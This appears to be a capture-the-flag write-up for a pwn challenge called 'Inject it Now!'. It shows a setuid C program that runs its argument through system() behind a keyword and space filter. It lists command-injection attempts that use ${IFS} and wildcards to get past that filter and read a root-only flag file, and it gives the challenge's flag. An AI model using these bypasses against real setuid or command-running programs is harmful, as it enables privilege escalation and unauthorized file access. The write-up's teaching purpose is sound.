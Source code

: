 # Inject it Now!
- Category: Pwn
- Points: 200
- Captures: 23
## Challenge Description:
We managed to get access to one of the GDC servers. We believe it stores some interesting information. Help us retrieve it.

*(A netcat target was provided for us to access)*
## Solution:
### Tools used:
- `cat, tail, ls, sh` - provided on the netcat server


After successfully connecting to the server, we are greeted in an `sh` instance, where running `ls` shows us the following:

``` sh
> ls -la
total 80
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 .
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 ..
-rwxr-x--- 1 0 1000   220 Aug 31  2015 .bash_logout
-rwxr-x--- 1 0 1000  3771 Aug 31  2015 .bashrc
-rwxr-x--- 1 0 1000   655 Jul 12  2019 .profile
drwxr-x--- 1 0 1000  4096 Jun 21 10:30 bin
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 dev
-r-------- 1 0 1000    31 Jun  1 04:49 flag
-rwsr-x--x 1 0    0 16960 Jun  1 12:25 gdc_exec
-rwxr-x--- 1 0 1000   621 Jun  1 12:24 gdc_exec.c
-rwxr-x--- 1 0 1000  8648 Jun 11 06:52 helloworld
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib32
drwxr-x--- 1 0 1000  4096 Jun 21 10:13 lib64 
```
We can see that there are a few files that seems out of the ordinary for a typical linux root directory, like:
- `flag` (That's what we're after!)
- `gdc_exec`
- `gdc_exec.c`
- `helloworld`

More importantly, we see that flag has read-only permissions for the file owner, or permission scope `400`. This means that only the owner (root) is able to read from this file! 

As expected, when we try to `cat` the file directly, we are faced with a permissions issue as seen below:

![](./cantcatflag.png)

*much sadness*

Let's take a look at some of the other files. In particular, there is a `gdc_exec.c`, and a `gdc_exec` file which seems to be a compiled binary of the c file. Furthermore, we notice that the `gdc_exec` binary has the SUID bit set. For more information on SUID bits, [this is a pretty interesting article.](https://www.thegeekdiary.com/what-is-suid-sgid-and-sticky-bit/), but this basically means that the `gdc_exec` binary will run with the owner's permissions instead of yours (and since both `flag` and `gdc_exec` are owned by the UID 0, `gdc_exec` can read `flag`)

When we take a look at the c file, we see the following (I have helpfully included comments to explain what this does):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int check_cmd(char* command) // This function filters out words like "flag, sh" and the like to make your life harder
{
    int ret = 0;

    for (int i = 0; command[i] != '\0'; i++)
    {
        if (command[i] == ' ') ret++;
    }

    ret += strstr(command, "flag")!=0; // Filters out "flag"
    ret += strstr(command, "sh")!=0; // Filters out "sh"
    ret += strstr(command, "s\\h")!=0; // Filters out "s\\h"
    ret += strstr(command, "tmp")!=0; // Filters out "tmp"
    ret += strstr(command, "cat")!=0; // Filters out "cat"

    return ret; // Returns the value of ret. If any of the keywords have been detected, it returns a non-zero value which will cause the program to terminal
}


int main(int argc, char* argv[], char** envp)
{
    if (argc < 2) return 0;  // Stops the program if there are no arguments added after calling the program 
    if (check_cmd(argv[1])) return 0; // Stops the program if check_cmd returns any value other than 0 - this checks the first argument given to the program

    setreuid(geteuid(), geteuid()); 

    putenv("PATH=/whereami"); // Sets a PATH to a random location - this means that we need to manually tell the program our binary executable location
    chdir("/tmp");

    system(argv[1]); // Executes the first appended argument

    return 0;
}
```
So it seems like this program prevents us from using simply `cat`-ing the flag or popping a root shell for us to use, which means we need to get creative. A quick peek into `/bin/` shows us what other executables are available for us to use:

```sh
> ls /bin
cat
ls
sh
tail
echo
```

`tail`! We can use that to read our flag file, which presumably is only 1 line long. This solves the first issue of using a different command to read the flag. However, we still have 2 issues to face, namely:

1. Actually providing the flag as an argument to `tail`
2. Providing both `tail` and `flag` as an argument without any spaces (Remember that the program only executes the first argument!)

Well, the solution to the first issue is simple. Just use a wildcard substitution like `/fla*`! However, from here on out, it was a journey filled with pain and suffering as I attempted many ways of sending my command as an argument that would not be picked up by the `check_cmd` function while maintaining the 1 argument route. Some commands I tried included:

- `./gdc_exec /bin/tail</fla*` This did not work as wildcards and STDIN redirection did not play well
- `./gdc_exec /bin/tail${IFS}/fla*`
- `./gdc_exec /bin/tail${IFS}$* /fla*`
- Many others that I cannot remember 2 weeks after the CTF

Some notes:
- `${IFS}` represents a space when processed by the shell - having this around 
- The `gdc_exec` binary sets a PATH location to a seemingly non-existant location, so we need to manually specify where our tail binary is
- The `$*` command parses all other arguments into the first command

Finally, after a dinner break, I stumbled upon the winning ~~formula~~ command:

![](./wowgotflag.png)
:tada: Flag found!!
## Flag:
```CDDC21{You_Wi11_n3ver_st0p_u$}```